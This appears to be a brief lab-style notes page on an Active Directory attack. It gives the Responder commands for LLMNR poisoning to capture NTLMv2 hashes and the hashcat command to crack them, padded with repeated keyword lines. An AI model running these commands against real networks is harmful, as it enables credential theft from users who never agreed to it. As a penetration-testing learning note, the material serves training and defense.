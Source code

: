 # know how active directory attack ntlmv2 hashes with responder
```bash
## know how ntlmv2 hashes active directory attack
## know how active directory attack ntlmv2 hashes
## know how active directory attack ntlmv2 hashes responder
## know how responder active directory attack ntlmv2 hashes
## know how active directory attack responder ntlmv2 hashes
## know how active directory attack ntlmv2 hashes responder
```

```bash
## know how active directory 1
## know how active directory hash
```
1. step 1 Launch responder


```bash
sudo responder -I eth3 -dwv
sudo responder -I eth3 -rdwv
```

![](assets/2023-01-29-05-33-19.png)

![](assets/2023-01-29-05-35-49.png)

2. execuete action for view ntlmv2 hashes
  
Now its listening, if any doing any request to the server, we listening. We can try using windows 10 connect to `\\ip`

![](assets/2023-01-30-11-23-34.png)


3. step 3 get hashes llmnr poisoning

4. step 4 use hashcat to crack hashes . Crack dem hashes

```bash
## know how hashcat active directory attack
## know how active directory hashcat attack


hashcat -m 5600 hashes.txt rockyou.txt
```
![](assets/2023-01-30-11-30-08.png)



